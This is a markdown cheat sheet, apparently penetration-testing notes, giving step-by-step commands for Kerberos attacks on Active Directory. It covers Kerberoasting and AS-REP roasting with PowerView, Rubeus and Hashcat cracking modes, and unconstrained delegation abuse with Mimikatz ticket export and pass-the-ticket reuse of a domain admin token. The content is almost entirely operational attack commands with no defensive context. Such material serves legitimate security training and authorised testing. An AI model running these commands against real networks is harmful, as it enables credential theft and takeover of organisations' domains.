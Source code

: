 # Kerberos Attacks

## Kerberoasting

Requirements:  
- PowerView
- Hashcat

```powershell
# Find user accounts used as service accounts
Get-NetUser -SPN
Request-SPNTicket "<spn>" -Format Hashcat   # If this doesn't work in hashcat, also try "-Format John"

# Save the hash via copy and paste to a text file for cracking
# Crack with hashcat
hashcat -m 13100 -a 0 hash.txt  /path/to/wordlist.txt
```

## AS-REP Roasting

Requitements:  
- Rubeus.exe
- Hashcat

```powershell
# With Rubeus and hashcat
.\Rubeus.exe asreproast
# Copy any hashes to text files
hashcat -m 18200 asreproast-hash.txt /path/to/wordlist.txt
```

## Unconstrained Delegation

Requirements:  
- High privileged user or a shell as system
- PowerView
- Invoke-Mimikatz.ps1 OR Mimikatz.exe

```powershell
# With higher privs, or a shell running as system
Get-NetComputer -UnConstrained

# Compromise where unconstrained delegation is enabled
## With Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
# The DA token could be reused
Invoke-Mimikatz -Command '"kerberos::ptt C:\path\to\ticket.kirbi"'
## With Mimikatz.exe
.\mimikatz.exe
sekurlsa::tickets
sekurlsa::tickets /export
# The DA token could be reused
kerberos::ptt "C:\path\to\ticket.kirbi"
```
